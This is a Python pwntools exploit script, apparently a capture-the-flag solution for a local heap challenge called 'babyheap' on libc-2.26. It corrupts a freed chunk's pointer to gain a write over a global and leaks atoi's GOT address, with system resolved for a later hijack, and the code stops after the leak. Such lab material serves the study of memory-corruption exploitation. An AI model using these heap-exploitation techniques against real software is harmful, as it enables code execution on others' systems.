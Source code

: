 ```python
from pwn import p64, u64, process, ELF


def padu64(b):
    while len(b) < 8:
        b = b + b"\x00"

    return u64(b)


def _select(s, sel, c=b"> "):
    s.recvuntil(c)
    s.sendline(sel)


def create(s):
    _select(s, b"1")


def edit(s, data="junk"):
    _select(s, b"2")
    s.recvuntil("? ")
    s.sendline(data)


def show(s):
    _select(s, b"3")
    s.recvuntil(": ")
    return s.recvline().rstrip()


def delete(s):
    _select(s, b"4")


def fill(s, data):
    _select(s, b"1337")
    s.recvuntil(b"Fill ")
    s.sendline(data)


if __name__ == '__main__':
    filename = "./babyheap"
    libcname = "./libc-2.26.so"

    elf = ELF(filename)
    libc = ELF(libcname)

    global_top = 0x6020a0
    libc_atoi = libc.symbols["atoi"]
    libc_system = libc.symbols["system"]

    s = process(filename, env={"LD_PRELOAD": libcname})
    create(s)
    delete(s)
    
    edit(s, p64(global_top))
    create(s)

    payload = p64(0) * 5
    payload += p64(elf.got["atoi"])
    fill(s, payload)
    atoi_addr = padu64(show(s))
```